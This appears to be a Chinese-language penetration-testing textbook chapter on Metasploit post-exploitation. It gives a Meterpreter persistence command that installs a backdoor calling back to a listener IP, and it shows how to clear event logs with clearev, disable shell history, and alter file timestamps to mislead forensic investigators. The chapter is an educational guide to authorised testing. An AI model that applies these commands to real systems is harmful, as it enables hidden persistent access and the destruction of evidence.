





# 第十七章：维持访问和清除痕迹

在上一章中，我们学习了特权升级概念以及实际的升级技术。

在本章中，我们将学习如何在被妥协的系统上保持访问并使用反取证技术清除痕迹。我们将学习如何在被妥协的系统上建立持久后门，并使用 Metasploit 的反取证能力来清除渗透痕迹。

在本章中，我们将涵盖以下主题：

+   维持访问

+   清除痕迹和路径

+   反取证

# 维持访问

到目前为止，在本书中，我们已经看到了渗透测试的各个阶段。所有这些阶段都需要大量的时间和精力。假设你正在对一个目标进行渗透测试，并且已经努力通过 Metasploit 获得了远程系统访问。你希望在任务继续进行的几天内保持这种辛苦获得的访问。然而，在这段时间内，被妥协的系统是否会重新启动并没有保证。如果重新启动，你的访问将会丢失，你可能需要再次努力获得相同的访问权限。这正是我们希望在被妥协的系统中保持或持续访问的确切场景。

Metasploit 提供了一些出色的内置机制，可以帮助我们保持对被妥协系统的持久访问。第一步将是利用针对易受攻击的目标系统的合适漏洞，并获得 Meterpreter 访问，如下截图所示：


一旦利用成功，我们就可以获得对远程系统的 Meterpreter 访问。Metasploit 中的 Meterpreter 提供了一个名为`persistence`的实用程序，它可以帮助我们在受损系统上安装一个永久后门。我们可以使用`run persistence -h`命令了解更多关于`persistence`实用程序的信息：



现在我们执行`persistence`命令：

```
meterpreter >run persistence –A –L c:\\ -X 60 –p 443 –r 192.168.25.130
```

这个命令将执行`persistence`脚本并启动一个匹配的处理程序(`-A`)，将 Meterpreter 放在目标系统的`c:\\`位置(`-L c:\\`)，系统启动时自动启动监听器(`-X`)，每 60 秒检查一次连接(`60`)，在端口`443`上连接(`-p 443`)，并在 IP 地址`192.168.25.130`上回连到我们。

`persistence`脚本的执行输出如下：


现在`persistence`脚本已成功安装在目标系统上，我们不需要担心重新启动。即使目标系统重新启动，无论是故意还是意外，`persistence`脚本都会自动重新连接到我们，再次给我们 Meterpreter 访问权限。

# 清除痕迹和路径

渗透测试由一系列复杂的任务对目标系统执行而成。执行这些任务会以多种方式影响目标系统。多个配置文件可能会被修改，许多审计记录可能会被记录在日志文件中，对于 Windows 系统，注册表可能会发生变化。所有这些变化可能帮助调查人员或蓝队成员追溯攻击向量。

完成渗透测试后，清除所有在妥协过程中使用的残留文件是很好的。但是，这需要与蓝队达成一致。清除所有痕迹的另一个目的可能是测试组织的事后响应方法。然而，现实世界的攻击者可能会简单地利用这一点来掩盖他们的痕迹并保持不被发现。

Metasploit 具有一些帮助清除痕迹的能力。首先，我们需要利用一个漏洞并给予 Meterpreter 对目标的访问：



以下截图显示了我们目标系统上的应用程序事件日志：


以下截图显示了我们目标系统上的`System`事件日志：



现在我们已经给予 Meterpreter 对目标系统的访问权限，我们将使用`getsystem`命令将权限提升到管理员级别。Meterpreter 有一个名为`clearev`的实用程序，用于擦除目标系统上的审计记录。当我们执行`clearev`时，目标上的所有审计记录都被擦除：


以下截图显示，由于`clearev`擦除了应用程序事件日志，因此没有应用程序事件日志：


以下截图显示，由于`clearev`擦除了系统事件日志，因此没有系统事件日志：



同样，在具有 Linux 操作系统的目标上，我们可以做一些事情来清除我们的痕迹。Linux 终端维护命令历史记录，可以使用`history`命令查看：


在 Linux 系统（基于 Debian 的系统）中，负责控制命令历史记录的参数是`$HISTSIZE`。如果我们能够将其值设置为`0`，就不会存储任何命令历史记录：


# 反取证

在前一节中，我们看到渗透测试任务留下了多个痕迹。事后取证调查可以揭示有关妥协发生方式的许多信息。进行取证分析时的一个重要因素是时间戳。文件时间戳有助于重建可能发生的一系列活动。

Metasploit 提供了能够有效用于覆盖时间戳值并误导取证调查的功能。

首先，我们利用漏洞针对目标使用 Meterpreter 访问。然后我们使用`timestomp <filename> -v`命令列出与文件相关的各种时间戳：



现在，我们可以尝试使用`timestamp <filename> -b`命令擦除文件的时间戳。此命令将清除与目标文件相关的所有时间戳：


# 总结

在本章中，我们学习了各种技术来持久访问受损目标。我们还学习了清除受损系统痕迹的各种方法，以及 Metasploit 框架的一些反取证能力。

在下一章中，我们将学习正确漏洞评分的重要性。
